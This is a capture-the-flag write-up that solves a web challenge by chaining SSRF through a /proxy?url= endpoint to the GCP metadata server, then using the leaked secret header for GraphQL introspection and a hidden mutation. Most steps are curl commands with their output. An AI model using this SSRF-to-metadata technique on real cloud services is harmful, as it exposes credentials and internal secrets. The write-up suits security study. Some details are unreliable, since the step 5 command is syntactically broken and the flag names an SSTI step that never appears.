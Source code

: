 # 🛰️ The Great Juche Jaguar GraphQL Heist — CTF Write-up

**Category:** Web Exploitation / SSRF / GraphQL  
**Points:** 300  

---

## 🎯 Challenge Summary

The Juche Jaguar intranet exposes a vulnerable proxy endpoint:
```
/proxy?url=
```
This can be abused to:
- Reach the Google Cloud metadata server
- Extract a one-time secret from the metadata
- Use that secret as a custom header to POST to `/graphql`
- Introspect the GraphQL schema to find a random mutation
- Execute the mutation and retrieve the flag

> Challenge Server: `http://34.86.186.68:8080`

---

## 🛠️ Tools Used
- `curl`
- `base64`
- Linux CLI
- `jq` (optional JSON parser)

---

## 🪜 Steps to Solve

### 🔹 Step 1: SSRF to Metadata Server
We started probing the GCP metadata server:
```
http://169.254.169.254/computeMetadata/v1/instance/attributes/
```
Using the proxy:
```bash
curl "http://34.86.186.68:8080/proxy?url=http%3A%2F%2F169.254.169.254%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2F" \
  -H "Metadata-Flavor: Google"
```
**Result:**
```
X-JJ-SECRET
ssh-keys
```

---

### 🔹 Step 2: Extract the Secret Header
```bash
curl "http://34.86.186.68:8080/proxy?url=http%3A%2F%2F169.254.169.254%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2FX-JJ-SECRET" \
  -H "Metadata-Flavor: Google"
```
**Response:**
```
S3NT1N3L
```

---

### 🔹 Step 3: GraphQL Schema Introspection
POST to `/graphql` using the secret:
```bash
curl -X POST http://34.86.186.68:8080/graphql \
  -H "X-JJ-SECRET: S3NT1N3L" \
  -H "Content-Type: application/json" \
  --data '{"query":"{ __schema { mutationType { fields { name } } } }"}'
```
**Result:** (base64-encoded)

```bash
echo 'eyJkYXRhIjp7Il9fc2NoZW1hIjp7Im11dGF0aW9uVHlwZSI6eyJmaWVsZHMiOlt7Im5hbWUiOiJtMzA5ZTUzMzYifV19fX19' | base64 -d
```
**Decoded:**
```
m309e5336
```

---

### 🔹 Step 4: Execute the Mutation
```bash
curl -X POST http://34.86.186.68:8080/graphql \
  -H "X-JJ-SECRET: S3NT1N3L" \
  -H "Content-Type: application/json" \
  --data '{"query":"mutation { m309e5336 }"}'
```
**Output:** Another base64-encoded flag response

---

### 🔹 Step 5: Decode the Flag
```bash
echo 'eyJkYXRhIjp7Im0zMDllNTMzNiI6IkMx...'} | base64 -d
```
✅ **Final Flag:**
```
C1{ssti_r3m0t3_c0d3_x3c}
```

---

## 🧠 Key Takeaways
- SSRF via query string (`/proxy?url=`)
- GCP internal metadata abuse
- Extracting secret headers via metadata attributes
- GraphQL introspection and schema discovery
- Dynamic mutation name detection
- Multi-step API exploitation

---

